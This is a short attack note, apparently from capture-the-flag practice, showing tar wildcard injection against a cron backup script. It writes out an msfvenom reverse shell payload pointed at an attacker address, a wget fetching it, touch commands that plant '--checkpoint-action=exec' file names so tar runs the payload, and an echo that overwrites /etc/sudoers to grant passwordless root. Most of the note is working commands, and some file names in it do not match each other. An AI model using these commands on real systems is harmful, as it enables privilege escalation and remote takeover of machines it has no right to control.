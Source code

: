 
When tar is run in a script that is run for example by a cron job and it has a `*`:

Example script:
```sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

```sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

If we put a reverse shell command in a file, for example:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.18.21.236 LPORT=444 -f elf -o revsh444.elf`
or a script or whatever.

put it in the directory
`wget 10.18.21.236/shells/revsh444.elf`

to validate the file can run on the box you can run it yourself :)

set is as executable:
`chmod +x ./shell.elf`

And also make files to emulate the options to tar to run a file like this:
`touch ./--checkpoint=1`
`touch ./--checkpoint-action=exec=revsh444.elf`

Alternative to elf

`echo 'kali ALL=(root) NOPASSWD: ALL' > /etc/sudoers`

`echo "" > '--checkpoint-action=exec=sh sudoer.sh'`


When the script is run it will run our executable!

touch ./--checkpoint-action=exec=./revsh444.elf

---

